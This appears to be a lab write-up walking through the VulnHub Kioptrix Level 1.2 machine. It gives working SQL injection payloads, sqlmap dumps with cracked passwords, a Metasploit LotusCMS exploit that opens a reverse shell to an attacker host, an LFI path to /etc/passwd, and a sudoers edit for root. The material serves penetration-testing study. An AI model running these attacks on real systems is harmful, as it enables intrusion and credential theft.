 # Kioptrix: Level 1.2 (#3)

https://www.vulnhub.com/entry/kioptrix-level-13-4,25/https://www.vulnhub.com/entry/kioptrix-level-12-3,24/

We netdiscover to find http://192.168.1.95/ and do a nmap scan

```
root@kali:~/test# nmap -sV 192.168.1.95

Starting Nmap 7.60 ( https://nmap.org ) at 2017-09-29 14:33 BST
Nmap scan report for Unknown-00-0c-29-7a-37-81.home (192.168.1.95)
Host is up (0.000065s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
MAC Address: 00:0C:29:7A:37:81 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.38 seconds
```

Potentially some services here can be exploited. We visit the http and see a website, it has a login page powered by LotusCMS and a blog. We check for more directories `nikto -h 192.168.1.95` and find phpmyadmin. We visit the page and try the default user and password, root/admin with no password. It works! but nothing interesting I could find (maybe there is?).

## Method 1 - Gallery SQL injection 

Anyways, I went to to the gallery page and ran nikto on that as well ` nikto -h http://192.168.0.198/gallery`. Note that we had to add the /etc/hosts file as indicated in the [instruction](https://www.vulnhub.com/entry/kioptrix-level-13-4,25/https://www.vulnhub.com/entry/kioptrix-level-12-3,24/) page. Viewing the page source of `http://kioptrix3.com/gallery/` we see a commented href to gadmin. We visit that page that leads to "Sign in to Gallarific". We do a `searchsploit Gallarific` to find possible sql injection. Even if this wasnt told explicitly, we could see that it used a gallarific.js.

We `cat /usr/share/exploitdb/platforms/php/webapps/15891.txt` and see an example exploit. We can automate this with sqlmap by doing `sqlmap -u  "http://kioptrix3.com/gallery/gallery.php?id=1" --tables` to find the table and then either dump-all or `sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1" --dump -D mysql -T dev_accounts ` to find the account details:

```
Database: gallery
Table: dev_accounts
[2 entries]
+----+------------+---------------------------------------------+
| id | username   | password                                    |
+----+------------+---------------------------------------------+
| 1  | dreg       | 0d3eccfb887aabd50f243b3f155c0f85 (Mast3r)   |
| 2  | loneferret | 5badcaf789d3d1d09794d8f021f40f0e (starwars) |
+----+------------+---------------------------------------------+
```

Alternatively, doing it manually would result in a path like this:
```
-1 union select 1,@@version,3,4,5,6 (to find the version name, which we know it is ubuntu and MySQL)

1 and 1=2 union select 1,2,group_concat(table_name),4,5,6,7 from information_schema.tables where table_schema=database()-- (a typical entry to to find table names)

-1 union select 1,group_concat(username,0x3a,password),3,4,5,6 FROM dev_accounts-- (now we can select dev_accounts and use hashcat or John to find the passwords)
```

## Method 2 - LotusCMS eval() (Metasploit)
The other way is to either hydra the ssh login or use LFI for `http://192.168.1.70/index.php?system=../../../../../../../../../../../../../../../../../etc/passwd.html` that I've found online, but I wouldn't have done that intuitively. Instead, remembering from previous VM, we can check if the web application is vulnerable by checking exploits for LotusCMS. 

```
root@kali:~# searchsploit lotuscms
---------------------------------------------------------------------------------- ----------------------------------
 Exploit Title                                                                    |  Path
                                                                                  | (/usr/share/exploitdb/platforms/)
---------------------------------------------------------------------------------- ----------------------------------
LotusCMS 3.0 - 'eval()' Remote Command Execution (Metasploit)                     | php/remote/18565.rb
LotusCMS 3.0.3 - Multiple Vulnerabilities                                         | php/webapps/16982.txt
---------------------------------------------------------------------------------- ----------------------------------

msf > use exploit/multi/http/lcms_php_exec
msf exploit(lcms_php_exec) > show options

Module options (exploit/multi/http/lcms_php_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                     yes       The target address
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   URI      /lcms/           yes       URI
   VHOST                     no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Automatic LotusCMS 3.0


msf exploit(lcms_php_exec) > set RHOST 192.168.1.95
RHOST => 192.168.1.95
msf exploit(lcms_php_exec) > set payload generic/shell_reverse_tcp
payload => generic/shell_reverse_tcp
msf exploit(lcms_php_exec) > set LHOST 192.168.1.88
LHOST => 192.168.1.88
msf exploit(lcms_php_exec) > set URI /
URI => /
msf exploit(lcms_php_exec) > exploit

[*] Started reverse TCP handler on 192.168.1.88:4444 
[*] Using found page param: /index.php?page=index
[*] Sending exploit ...
[*] Command shell session 1 opened (192.168.1.88:4444 -> 192.168.1.95:59012) at 2017-09-30 01:37:36 +0100

whoami
www-data

From here it is just the simple case of finding the accessing the MySQL database at /home/www/kioptrix3.com/gallery/gconfig.php
```

## Privilege Escalation
All that is left is to ssh to the server of loneferret as there is a file of interest.

```
loneferret@Kioptrix3:~$ cat CompanyPolicy.README 
Hello new employee,
It is company policy here to use our newly installed software for editing, creating and viewing files.
Please use the command 'sudo ht'.
Failure to do so will result in you immediate termination.
loneferret@Kioptrix3:~$ sudo -l <-------- (here we see that we can running su is prohibited but ht can be used which is an editor. This means we can edit a file under root, a good choice would be to rewrite /etc/sudoers to rewrite the commands)
User loneferret may run the following commands on this host:
    (root) NOPASSWD: !/usr/bin/su
    (root) NOPASSWD: /usr/local/bin/ht
    
loneferret@Kioptrix3:~$ sudo ht /etc/sudoers
Error opening terminal: xterm-256color.
loneferret@Kioptrix3:~$ TERM=xterm-color
loneferret@Kioptrix3:~$ sudo ht /etc/sudoers

From here we can press F3 and open sudoers and edit the file. We can just add /bin/sh to run root! `loneferret ALL=NOPASSWD: !/usr/bin/su, /usr/local/bin/ht, /bin/sh". Finally, alt+f and save the file. We could've changed to /usr/bin/su but some reason we don't actually have that in there.

loneferret@Kioptrix3:~$ sudo /bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
```

#
